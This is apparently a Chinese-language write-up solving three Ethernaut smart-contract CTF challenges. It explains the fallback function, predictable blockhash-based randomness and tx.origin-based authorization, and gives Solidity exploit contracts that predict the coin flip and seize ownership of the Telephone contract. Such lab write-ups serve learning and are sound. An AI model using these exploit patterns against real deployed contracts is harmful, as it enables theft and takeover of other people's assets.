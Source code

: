 https://ethernaut.openzeppelin.com/

# challenges

## Fallback

此challenge重点在[fallback函数](https://docs.soliditylang.org/en/latest/contracts.html?highlight=fallback#fallback-function)

fallback函数在以下情况会执行：
- 调用该合约中不存在的函数
- 有账户向该合约发送以太币(没有相应的接收函数)

通过`contract.sentTransaction({value: 1})`即可调用`fallback()`函数

## Coin Flip

此challenge重点在随机数安全

通过challenge的条件是连续猜对十个bool值，该bool是从上一个区块的哈希值计算出：
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
```

上一个区块的哈希值是链上公开数据。解决方法是：自己部署一个合约，用相同的逻辑计算出该bool值，再调用challenge中的合约把事先计算出的答案传递过去。

```solidity
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';
import './coinflip.sol';

contract CoinFlipPoc {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip target;
  
  constructor (address adimAddr) public {
      target = CoinFlip(adimAddr);
  }

  function hack() public {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip =uint256(uint256(blockValue) / FACTOR);
      bool guess = coinFlip == 1 ? true : false;
      target.flip(guess);
  }
}
```

## Telephone

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

[官方文档](https://docs.soliditylang.org/en/latest/cheatsheet.html?highlight=tx.origin#global-variables)
`tx.origin`和`msg.sender`的区别

- `msg.sender` (address): sender of the message (current call)
- `tx.origin` (address): sender of the transaction (full call chain)

然后合约中可以调用其他合约。自己起个合约调用challenge合约中的`changeOwner`函数即可。
此时`tx.origin`就是我的地址，`msg.sender`是我部署的合约的地址。

```solidity
pragma solidity ^0.6.0;

import './telephone.sol';

contract Exp_Telephone {

  Telephone public aim;

  constructor(address _aim) public {
    aim = Telephone(_aim);
  }

  function hack(address me) public {
    aim.changeOwner(me);
  }
}
```